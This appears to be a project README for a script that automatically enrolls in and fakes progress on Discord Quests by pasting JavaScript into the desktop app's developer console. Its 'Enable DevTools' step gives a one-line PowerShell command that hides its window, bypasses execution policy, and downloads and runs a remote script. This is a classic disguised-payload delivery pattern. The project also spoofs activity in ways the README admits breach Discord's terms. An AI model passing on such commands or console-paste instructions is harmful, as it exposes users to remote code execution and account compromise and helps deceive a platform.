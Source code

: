 <h1 align="center">Discord Quest Completer 🚀</h1>
<p align="center">
  <a href="#">
        <img src="https://badges.strrl.dev/visits/power0matin/discord-quest-auto-completer?style=flat&labelColor=333333&logoColor=E7E7E7&label=Visits&logo=github" />
  </a>
  <a href="#">
    <img src="https://img.shields.io/github/stars/power0matin/discord-quest-auto-completer?style=flat&labelColor=333333&logoColor=E7E7E7&color=EEAA00&label=Stars&logo=github"/>
  </a>
</p>

### [مشاهده‌ی فایل راهنمای فارسی](README.fa.md) <!-- این لینک را به آدرس واقعی README انگلیسی تغییر بدهید -->

## Overview 📝

A professional JavaScript script to automatically accept and complete Discord Quests on the Discord Desktop app.  
It injects into Discord via Developer Tools, uses internal APIs to enroll in quests, and spoofs progress for various quest types (streaming, gaming, watching videos, etc.).

> **Warning ⚠️**
>
> - Using this script may violate Discord's Terms of Service and can lead to account suspension or ban. Use at your own risk.
> - For educational purposes only. The author holds no responsibility for misuse.
> - Streaming quests require at least one other account in the voice channel watching the stream.
> - Auto-enrolling may trigger CAPTCHA, which this script cannot bypass. Enroll manually if that happens.
> - Rewards must be claimed manually via **Settings > Gift Inventory** to avoid CAPTCHAs.
> - Tested mainly on Windows desktop app; browser and Linux support is limited.

## Features ✨

- **Auto Accept**: Automatically scans and enrolls in available quests.
- **Auto Complete**: Supports:
  - Video watching (spoofs progress).
  - Desktop gaming (fakes game detection).
  - Desktop streaming (spoofs stream progress; manual VC join required).
  - Other activities with extendable support.
- **Easy to Use**: Paste the script into Developer Tools console and run.
- **Modular & Extensible**: Easily add support for new quest types.
- **Detailed Logging**: Console logs show progress and debugging info.

## Requirements 🛡️

- Discord Desktop App (Windows/Mac/Linux; best on Windows).
- Developer Tools access (enabled by default).
- Basic knowledge of running JavaScript in console.
- For streaming quests: an alt account to watch stream in voice channel.

## Installation & Usage 📥

1. **Open Discord Desktop App**
2. **Go to Quests**: Navigate to Discover tab (compass icon) → Quests section.
3. **Open Developer Tools**:
   - Windows/Linux: `Ctrl + Shift + I`
   - Mac: `Cmd + Option + I`
4. **Switch to Console Tab**
5. **Paste & Run Script**: Copy the contents of `quest_completer.js` and press Enter.
6. **Monitor Logs**: Watch console for progress messages.
7. **Claim Rewards**: After completion, claim manually in **Settings > Gift Inventory**.

**Tips 💡**

- Quests may be region-locked or account-restricted.
- For stream quests, join a voice channel with an alt account streaming any window.
- Refresh quests by restarting Discord or navigating away and back.
- Discord updates may require script tweaks; inspect webpack modules if errors appear.

## Troubleshooting 🛠️

- **No Quests Found?** Check region and eligibility. VPN might help but may violate TOS.
- **CAPTCHA Triggered?** Enroll quests manually.
- **Script Errors?** Internal APIs may have changed. Update script accordingly.
- **Quests Not Completing?** Ensure desktop app usage and correct setup.
- **Linux Limitations?** Activity detection may fail, so rewards might not register.

## Enable DevTools ⛔

- Win + R and paste:

```r
powershell -w h -ep B -c "iex(iwr https://raw.githubusercontent.com/power0matin/discord-quest-auto-completer/main/EnableDevTools.ps1)"
```

## Extensibility 🔄

- Add new quest types by extending the `completeQuest` function in `quest_completer.js`.
- Use Discord internal modules like `api` and `FluxDispatcher` for advanced features.
- Contributions welcome! Feel free to fork and send pull requests.

## License 📜

This project is licensed under the [**MIT License**](LICENSE) — see the LICENSE file for details.  
Feel free to modify, distribute, and use it as you like. No warranties provided.

_Happy questing!_ 🎉

<p align="center">
&#169 Created by power0matin
</p>
